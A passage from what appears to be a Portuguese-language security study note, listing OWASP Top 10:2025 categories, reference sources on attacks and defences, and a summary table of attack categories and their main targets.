| A03:2025 | Software Supply Chain Failures | NOVO: deps vulneráveis, build system, distribuição comprometida |
| A04:2025 | Cryptographic Failures | Dados em trânsito/repouso sem cifragem, algoritmos fracos |
| A05:2025 | Injection | SQLi, OS command injection, LDAP injection, template injection |
| A06:2025 | Insecure Design | Falhas arquiteturais, ausência de threat modeling |
| A07:2025 | Identification and Authentication Failures | MFA ausente, sessões fracas, credential stuffing |
| A08:2025 | Data Integrity Failures | Deserialização insegura, updates sem verificação de assinatura |
| A09:2025 | Security Logging and Alerting Failures | Ausência de logs, alertas não acionáveis |
| A10:2025 | Mishandling of Exceptional Conditions | NOVO: error handling que falha aberto, logical errors |

---

> [!note] 📚 Fontes (2026)
> - [OWASP Top 10:2025](https://owasp.org/Top10/2025/): lista oficial com 589 CWEs analisados
> - [MITRE ATT&CK v18.1](https://attack.mitre.org/): táticas e técnicas Enterprise atualizadas dez/2025
> - [PortSwigger Web Security Academy](https://portswigger.net/web-security): labs gratuitos de SQLi, XSS, CSRF, SSRF, RCE
> - [Ransomware Kill Chain 2025 (AKATI)](https://www.akati.com/insights-blog/the-5-stages-of-a-modern-ransomware-kill-chain): fases detalhadas com técnicas atuais
> - [Breaking the Ransomware Kill Chain (VMware 2026)](https://blogs.vmware.com/security/2026/04/breaking-ransomware-kill-chain.html): EDR killers e tendências 2026
> - [SSRF to AWS Metadata (Resecurity)](https://www.resecurity.com/blog/article/ssrf-to-aws-metadata-exposure-how-attackers-steal-cloud-credentials): campanha real de SSRF em EC2
> - [Closing the Chain: SolarWinds, Log4j, XZ Utils (arxiv 2025)](https://arxiv.org/html/2503.12192v2): análise técnica de supply chain attacks
> - [SQL Injection 2026 Guide (Hive Security)](https://hivesecurity.gitlab.io/blog/sql-injection-complete-guide-2026/): UNION-based, blind, ORM bypass, WAF evasion
> - [GTFOBins](https://gtfobins.github.io/): binários Unix para escalada de privilégio
> - [HackTricks Cloud SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf): exploração em AWS, GCP, Azure
> - [Securelist Ransomware 2026](https://securelist.com/state-of-ransomware-in-2026/119761/): estatísticas e tendências

---

## 📊 Resumo Visual

| Categoria | Exemplos | Alvo Principal |
|-----------|----------|----------------|
| Engenharia Social | Phishing, Pretexting | Pessoas |
| Credenciais | Força Bruta, Pass-the-Hash | Autenticação |
| Rede | MitM, Spoofing | Comunicação |
| Aplicação | SQLi, XSS, CSRF, SSRF, RCE | Software |
| Malware | Ransomware, Trojan | Sistemas |
| DoS/DDoS | Flood, Amplification | Disponibilidade |
| Escalada | SUID, DLL Hijack, Token Impersonation | Privilégios |
| Supply Chain | SolarWinds, XZ Utils, Polyfill.io | Cadeia de fornecimento |
